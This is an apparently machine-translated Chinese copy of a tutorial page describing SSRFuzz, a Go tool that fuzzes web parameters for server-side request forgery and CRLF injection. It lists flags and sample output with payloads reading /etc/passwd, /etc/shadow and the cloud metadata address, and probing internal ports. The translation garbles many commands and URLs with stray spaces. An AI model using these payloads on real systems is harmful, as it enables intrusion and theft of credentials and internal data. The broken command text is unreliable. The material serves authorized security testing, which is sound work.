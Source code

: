 # SSRFuzz:一个发现服务器端请求伪造漏洞的工具，具有 CRLF 链接功能

> 原文：<https://kalilinuxtutorials.com/ssrfuzz/>

[![SSRFuzz : A Tool To Find Server Side Request Forgery Vulnerabilities, With CRLF Chaining Capabilities](img//e1991ef4023ab0c96a6277f9178978ff.png "SSRFuzz : A Tool To Find Server Side Request Forgery Vulnerabilities, With CRLF Chaining Capabilities")](https://1.bp.blogspot.com/-dyU7t-eIYg8/YEZ2J--vTXI/AAAAAAAAIeg/Yk7BPj3Ryjs7bv4g73LOZ9zUc3DCVKvLQCLcBGAsYHQ/s728/SSRFuzz%25281%2529.png)

**SSRFuzz** 是一个发现服务器端请求伪造漏洞的工具，具有 CRLF 链接功能。

**为什么？**

*   我想用 Golang 编写一个并发工具
*   我想模糊 SSRF 漏洞的参数，以及模糊 CRLF 注入的路径和参数
*   我受到了 Orange 将这些类型的漏洞链接在一起的工作的启发([https://blog.orange.tw](https://blog.orange.tw))

**安装**

对 intsall 运行以下命令

**去 get-u github . com/ryandamour/SSR fuzz**

**用途**

**用法:**
ssrfuzz scan【Flags】
**Flags:**
-b，–call-back string Add callback for SSRF fuzzing(即:https://github . com/ROP nop/server less _ toolkit/tree/master/ssrf _ slack)
-c，–Cookie string Cookie to use for requests
–crlf-path 将 crlf 有效载荷添加到所有可用路径(即:site.com/%0Atest.php)
–delay int 每个线程在请求之间等待的时间(以毫秒计 –HTTP-Method string HTTP Method–GET 或 POST(默认“GET”)
-o，–输出字符串保存结果的位置
–Skip-crlf 跳过 crlf 模糊
–Skip-network 跳过网络模糊
–Skip-scheme 跳过方案模糊
-s，–Slack-web hook string Slack web hook 将结果发送到通道
-t，–threads int 运行 ssrfuzz 的线程数(默认为 50)
–time out int Linux x86 _ 64)apple WebKit/537.36(KHTML，像 Gecko)Chrome/81 . 0 . 4044 . 138 Safari/537.36 ")
-v，–verbose 详细输出

**用法:
echo " http://URL _ to _ fuzz " | ssrfuzz scan
cat file _ of _ domains . txt | ssrfuzz scan
ssrfuzz scan-d file _ of _ domains . txt**

*扫描 http 和 scheme 有效负载 w/crlf:

echo " http://192 . 168 . 1 . 10/test . PHP？u=" | go run main.go scan
[！]方案有效载荷匹配:

* http://192 . 168 . 1 . 10/test . PHP？u=file://etc/passwd 200
[！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:80 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:8080 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:443 500
* http://192 . 168 . 1 . 10 test . PHP？u = http://127 . 1 . 0 . 0:22 500
* http://192 . 168 . 1 . 10/test . ph？u = http://127 . 1 . 0 . 0:25 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:445 500
[！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500

*仅扫描 http 有效负载 w/crlf:

echo " http://192 . 168 . 1 . 10/test . PHP？u = " | go run main . go scan–skip-scheme

[！]找到了有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:80% 23% OA 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:8080% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:443% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:443% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:25% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:25% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:22% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:22% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:445% 23% OA 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 127 . 127 . 127:445% 23% OA 500

*仅扫描不带 crlf 的 http 有效负载:

echo " http://192 . 168 . 1 . 10/test . PHP？u = " | go run main . go scan–skip-scheme–skip-crlf
[！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:80 200
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:8080 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:443 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:22 500
* http://192 . 168 . 1 . 10/test . PHP？u = http://127 . 1 . 0 . 0:25 500
* http://192 . 168 . 1 . 10/test . PHP？u=http://127.1.0.0:445 500

*仅扫描不带 crlf 的方案有效负载:

echo " http://192 . 168 . 1 . 10/test . PHP？u = " | go run main . go scan–skip-network–skip-crlf

【！]发现有趣的有效载荷
* http://192 . 168 . 1 . 10/test . PHP？u = file:///etc/passwd 200
* http://192 . 168 . 1 . 10/test . PHP？u = file:///etc/shadow 500
* http://192 . 168 . 1 . 10/test . PHP？u =文件://169.254.169.254/ 500

[**Download**](https://github.com/ryandamour/ssrfuzz)